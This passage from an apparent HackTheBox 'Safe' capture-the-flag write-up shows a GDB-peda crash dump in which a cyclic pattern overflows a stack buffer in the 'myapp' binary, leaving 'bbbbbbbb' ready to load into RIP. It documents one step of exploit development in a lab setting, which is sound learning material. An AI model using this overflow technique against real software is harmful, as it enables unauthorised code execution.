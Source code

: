 

When I hit enter, I crash, with eight `b` waiting to load into RIP at
the top of the stack:



    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    RAX: 0x0 
    RBX: 0x0 
    RCX: 0x7ffff7ecead4 (<__GI___libc_write+20>:    cmp    rax,0xfffffffffffff000)
    RDX: 0x7ffff7f9f580 --> 0x0 
    RSI: 0x405260 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAbbbbbbbb\n")
    RDI: 0x0 
    RBP: 0x41414e4141384141 ('AA8AANAA')
    RSP: 0x7fffffffdfb8 ("bbbbbbbb")
    RIP: 0x4011ac (<main+77>:       ret)
    R8 : 0x81 
    R9 : 0x0 
    R10: 0x4003e0 --> 0x6972700073747570 ('puts')
    R11: 0x246 
    R12: 0x401070 (<_start>:        xor    ebp,ebp)
    R13: 0x7fffffffe090 --> 0x1 
    R14: 0x0 
    R15: 0x0
    EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
       0x4011a1 <main+66>:  call   0x401030 <puts@plt>
       0x4011a6 <main+71>:  mov    eax,0x0
       0x4011ab <main+76>:  leave  
    => 0x4011ac <main+77>:  ret    
       0x4011ad:    nop    DWORD PTR [rax]
       0x4011b0 <__libc_csu_init>:  push   r15
       0x4011b2 <__libc_csu_init+2>:        mov    r15,rdx
       0x4011b5 <__libc_csu_init+5>:        push   r14
    [------------------------------------stack-------------------------------------]
    0000| 0x7fffffffdfb8 ("bbbbbbbb")
    0008| 0x7fffffffdfc0 --> 0x0 
    0016| 0x7fffffffdfc8 --> 0x7fffffffe098 --> 0x7fffffffe3ad ("/media/sf_CTFs/hackthebox/safe-10.10.10.147/myapp")
    0024| 0x7fffffffdfd0 --> 0x100040000 
    0032| 0x7fffffffdfd8 --> 0x40115f (<main>:      push   rbp)
    0040| 0x7fffffffdfe0 --> 0x0 
    0048| 0x7fffffffdfe8 --> 0x90f131e252f0111d 
    0056| 0x7fffffffdff0 --> 0x401070 (<_start>:    xor    ebp,ebp)
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x00000000004011ac in main ()



#### Functions
